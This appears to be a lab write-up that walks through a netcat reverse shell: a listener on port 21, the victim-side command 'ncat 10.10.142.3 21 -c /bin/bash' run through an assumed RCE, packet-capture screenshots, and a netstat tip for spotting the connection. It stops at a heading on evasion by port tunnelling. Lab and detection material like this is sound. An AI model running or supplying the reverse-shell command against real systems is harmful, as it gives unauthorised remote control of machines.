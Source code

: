 
### Setting up a listening our client:

-l listens for incoming connections
-v provides verbose details (optional)
-n does not resolve hostnames via DNS (optional)
-p specifies the port number to use

ncat -lvnp 21

![Pasted image 20240924133907](https://github.com/user-attachments/assets/eff7886b-ecbc-4170-a582-4ef72377c726)


### Connecting to the server:

Network trace from the client reaching the server on port 8080:

![Pasted image 20240924134217](https://github.com/user-attachments/assets/0039045a-ae64-4763-90f1-6262db7c7184)


Note: In this scenario, I'm going to be exploiting a vulnerable service that allows remote code execution (RCE) or a misconfiguration on the web application running on port 8080 to execute some code or command of my choice.


ncat 10.10.142.3 21 -c /bin/bash
![Pasted image 20240924134503](https://github.com/user-attachments/assets/77561853-f084-400a-8585-8f77461eb83f)

The command was executed usefully, we can the Http POST and the  ACK coming from the server 
![Pasted image 20240924134217](https://github.com/user-attachments/assets/e733f554-52c1-48a3-830f-9088e3e7b3c8)


Detail information about the Http POST
![Pasted image 20240924134054](https://github.com/user-attachments/assets/e2ab77dd-b3bd-4309-82a7-803c2397e8cb)



### Detecting a reverse shell from the server:

Tips:

 netstat -anp | grep ESTABLISHED 

This will display all established connections, and the the associated process or program. By filtering for established connections, you can focus on active connections. 

### Netcat network traffic coming from the server:

![Pasted image 20240924134356](https://github.com/user-attachments/assets/3f0787b6-3a76-47a4-9c85-cf34ded5b536)


We can see that the server's firewall is allowing port 21 outbound.  




#### Evasion Using Port Tunnelling:
